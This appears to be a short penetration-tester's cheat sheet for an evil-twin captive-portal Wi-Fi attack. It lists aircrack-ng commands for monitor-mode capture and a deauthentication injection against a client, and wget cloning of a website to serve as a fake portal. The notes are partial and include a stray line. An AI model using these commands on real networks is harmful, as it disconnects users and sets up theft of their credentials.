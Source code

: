 # Captive Ports


## Commands

## Commands

* Run [reconnaissance](../reconnaissance.md) first

### Capture some data

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq
```

### Build the Captive Portal

```bash

# Install the dependencies to build our captive port website
sudo apt-get install apache2 libapache2-mod-php

# Use the premade one
wget -r -l2 https://www.megacorpone.com
```


### Set up Network

```bash

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up

```


## References

* [Wiki](https://en.wikipedia.org/wiki/Captive_portal)